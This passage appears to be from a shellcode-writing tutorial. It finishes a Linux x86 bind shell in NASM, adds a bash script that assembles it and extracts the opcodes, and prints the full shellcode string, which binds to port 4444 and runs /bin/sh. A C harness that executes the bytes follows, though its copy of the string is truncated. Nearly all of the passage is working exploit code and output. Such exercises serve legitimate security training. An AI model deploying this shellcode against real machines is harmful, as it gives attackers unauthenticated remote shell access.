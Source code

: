 ```c


       mov al, 0xB     ; inserting the hex for SYS_EXECVE Syscall
       int 0x80

```

## Assembling and linking

Now, we have completed writing bind_shell.nasm file.

I will Assemble and link it with the following complie.sh bash script:

```c
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'

echo '[+] Printing the Shellcode:'

objdump -d ./$1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

The shellcode output:

```c
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xf6\x56\x53\x6a\x02\x89\xe1\xcd\x80\x97\x31\xc0\xb0\x66\x56\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\x31\xdb\xb0\x66\xb3\x04\x56\x57\x89\xe1\xcd\x80\xb0\x66\xfe\xc3\x56\x56\x57\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```
I will insert the shellcode on generic shellcode runner c program presented :

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xf6\x56\x53\x6a\x02\x89\xe1\xcd\x80\x97\x$


main()
{

       printf("Shellcode Length:  %d\n", strlen(code));

       int (*ret)() = (int(*)())code;

       ret();

}
```

